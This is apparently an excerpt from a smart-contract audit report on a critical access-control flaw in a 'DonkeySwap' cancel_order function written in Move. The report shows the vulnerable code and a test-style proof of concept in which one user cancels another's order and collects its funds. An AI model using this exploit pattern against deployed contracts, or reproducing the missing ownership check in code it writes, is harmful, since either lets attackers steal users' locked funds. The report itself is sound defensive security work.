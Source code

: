 Accepting an `&signer` parameter is not sufficient for access control. Be sure to assert that the signer is the expected account.

### DonkeySwap: Improper `cancel_order` Function Access Control

*   Category: Coding Mistakes
*   Severity: Critical
*   Impact: Critical
*   Likelihood: High

#### Description

The `cancel_order` function does not assert that the signer is the owner of the order before cancelling the order and transferring assets to the caller:

```rust
public fun cancel_order<BaseCoinType>(
        user: &signer,
        order_id: u64
    ) acquires OrderStore, CoinStore {
        // [...]
        deposit_funds<BaseCoinType>(order_store, address_of(user), order.base);
        // [...]
}
```

#### Impact

An attacker could potentially drain all locked liquidity for any coin type by cancelling every user’s orders:

```rust
##[test(admin=@donkeyswap, user=@0x2222)]
fun WHEN_exploit_improper_access_control(admin: &signer, user: &signer) acquires CoinCapability {
    setup_with_liquidity(admin, user);

    // let's say the admin deposits some USDC

    let my_usdc = 1000000000000000;
    mint<USDC>(my_usdc, address_of(admin));
    let order_id = market::limit_swap<USDC, ZEL>(admin, my_usdc, 1000000000000000);

    // now, let's try stealing USDC from the admin

    assert!(coin::balance<USDC>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE);
    assert!(coin::balance<ZEL>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE);

    market::cancel_order<USDC>(user, order_id); // order owned by admin, but signer is user!

    assert!(coin::balance<USDC>(address_of(user)) == my_usdc, ERR_UNEXPECTED_BALANCE);
    assert!(coin::balance<ZEL>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE); // received ZEL?
}
```
